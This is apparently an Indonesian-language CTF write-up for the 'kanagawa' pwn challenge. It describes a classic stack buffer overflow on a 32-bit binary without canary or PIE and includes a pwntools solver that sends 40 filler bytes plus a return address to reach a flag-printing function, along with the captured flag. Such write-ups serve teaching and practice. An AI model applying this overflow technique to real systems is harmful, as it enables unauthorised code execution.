



Tidak banyak deskripsi hanya terdapat attachment file 32 bit-executable dibuktikan dengan :
\n

\n

\n
Dari kedua pengecekan diatas ternyata 32 bit, not-striped, no-pie, no-canary, seharusnya challange pwn yang tidak begitu sulit. Dilanjutkan dengan analisis statis menggunakan Ida-pro dan begini hasilnya.

Misi kita hanyalah melakukan buffer overflow dan bisa jump ke fungsi 'recovery mode'. ya tinggal melakukan dynamic analisis dengan gdb dan filler buffer pada fgets pertama berapa, ternyata buffer yang dibutuhkan 40 char dan 4 char setelahnya akan digunakakn untuk melakukan jump ke memory dari recovery mode dan 'cat flag.txt'. Kita perlu mengambil address memory di recovery mode dan membaliknya karena ini merupakan 32-bit LSB, dengan mudah dibantu pwntools. Berikut solver yang saya gunakan.

'''from pwn import \*

elf = ELF('./kanagawa')
#r = process(elf.path)
s = remote('challs.dvc.tf',8888)

def exploit(): # s.recvuntil('Email: ') # Fill the buffer
payload = 'a' \* 40 + p32(0x0804851b)

    s.sendline(payload)
    s.interactive()

exploit()'''

flag = dvCTF{0v3rfl0w_tsun4m1}
